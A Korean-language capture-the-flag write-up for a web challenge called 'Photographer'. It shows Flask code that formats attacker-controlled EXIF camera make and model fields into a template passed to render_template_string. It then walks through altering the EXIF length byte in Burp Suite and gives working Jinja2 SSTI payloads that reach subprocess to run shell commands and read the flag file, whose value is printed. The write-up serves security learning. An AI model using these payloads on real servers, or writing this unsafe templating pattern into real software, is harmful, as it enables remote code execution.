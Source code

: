 # Photographer

# 취약점 : SSTI

[Image Analysis](http://web.isangxcaution.xyz:20200/)

```python
def thumbnailTemplate(thumbnail,camera_info,tags):
    template = '''
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <title>Image Analysis</title>
        <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0-alpha1/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-GLhlTQ8iRABdZLl6O3oVMWSktQOp6b7In1Zl3/Jr59b6EGGoI1aFkw7cmDA6j6gD" crossorigin="anonymous">
    </head>
    <body>
    <div class="container text-center" >
        <h1> Did you know that your image has senesitive information? </h1>
        <img src="data:image/jpeg;base64,{}" alt="No Thumbnail Image">

        <h4 class="mt-3">
        Your Camera is <u>{}</u> right?
        </h4>
        <hr>

        <h3> More Exif medatada </h3>
        <table class="table table-striped">
        <thead>
            <tr>
                <th scope="col">Key</th>
                <th scope="col">Value</th>
            </tr>
        </thead>
        <tbody>
            {{% for key,value in tags.items() %}}
                <tr>
                    <td>{{{{  key  }}}}</td>
                    <td>{{{{ value }}}}</td>
                </tr>
            {{% endfor %}}
        </tbody>
    </table>
    </div>
    </body>
    '''.format(thumbnail,camera_info)

    return render_template_string(template,tags=tags)
```

thumbnail,camera_info가 사용자가 전송한 exif 정보를 토대로 그대로 template에 들어간다. 따라서 2개의 값을 통해서 SSTI 취약점이 발생가능한지 확인해야 한다.

1. thumbnail 
    1. thumbnail 정보는 다음과 같이 처리되어 들어간다.
    
    ```python
    if 'JPEGThumbnail' in tags.keys():
                thumbnail = tags['JPEGThumbnail']
                thumbnail = base64.b64encode(thumbnail).decode()
    ```
    
    exif 정보가 그대로 들어가는게 아닌, base64인코딩을 거친다음, 템플릿 안으로 들어가게 된다.
    
    base64인코딩은 그 특성상 결과값으로 ‘{’,’}’ 가 입력될 수 없기 때문에 thumbnail 변수로는 ssti 취약점을 이용할 수 없다.
    
2. camera_info
    1. camera_info 정보는 다음과 같이 처리되어 들어간다.
    
    ```python
    if 'Image Make' in tags.keys() and 'Image Model' in tags.keys():
                camera_info = str(tags['Image Make']) + ' ' + str(tags['Image Model'])
    ```
    
    exif 정보에서 Image Make 정보와, Image Model 정보를 추출하여 그 두가지 값을 이어붙여서 템플릿 안으로 들어간다. 따라서 Image Make, Image Model 정보를 이미지에서 임의로 변경하여 SSTI 취약점을 발생시킬 수 있다.
    

## Exploit

패킷을 변조시켜야 하기 때문에 burpsuite에서 문제에서 제시된 이미지를 제출한다.

패킷을 캡쳐한다음, 지속적으로 패킷을 변조시키면서 테스트를 해야 하기 때문에 burpsuite의 reapeter 기능을 이용한다.

![Untitled](https://user-images.githubusercontent.com/37824335/223043550-543cd8a2-37e9-4623-a294-3b4154c5cecb.png)

공격포인트인 Image Make, Image Model 정보는 다음에 보이는 것처럼 보인다.

![Untitled 1](https://user-images.githubusercontent.com/37824335/223043564-865f2a45-a48a-44c6-976b-12d8a69ccaa1.png)

이때, 주의해야 할 점은 exif 정보에서 파일 시그니처 정보로 Image Make, Image Model 정보의 길이가 byte로 저장되어 있다. 관련된 정보는 다음과 같다.

![Untitled 2](https://user-images.githubusercontent.com/37824335/223043594-a4406f9d-2538-4299-bee9-76925a09ac52.png)

0x010f 다음에 오는 바이트 정보에 길이 정보가 포함되어 있다. 이를 변경 하기 위해서 burpsuite에서 해당 부분을 찾는다. 010f로 보이는 부분이 있고 뒤에있는 0c부분이 Image Make부분의 길이를 결정짓는 정보이므로 이를 넉넉하게 90정도로 바꾼다.

![Untitled 3](https://user-images.githubusercontent.com/37824335/223043621-01da27d8-b88b-47da-8957-94ef7073b86c.png)

![Untitled 4](https://user-images.githubusercontent.com/37824335/223043629-bc71e761-fdfb-4678-86ba-5d3dac789f08.png)

이제 Image Make 부분을 이용해서 SSTI 공격을 시작한다.

```python
{{''.__class__.__mro__[1].__subclasses__()[410]('id',shell=True,stdout=-1).communicate()}}
# 쉘을 실행시킬 수 있다.
```

![Untitled 5](https://user-images.githubusercontent.com/37824335/223043645-c4b4a881-f971-4f96-ae09-f35a0c67829e.png)

```python
{{''.__class__.__mro__[1].__subclasses__()[410]('cat flag.txt',shell=True,stdout=-1).communicate()}}
# 플래그 획득 가능
```

![Untitled 6](https://user-images.githubusercontent.com/37824335/223043675-4e345a81-a425-419a-9083-3de6465ac78c.png)


FLAG : IxC{B3_awar3_0f_sst1_wh3n_us3_t3mplate}
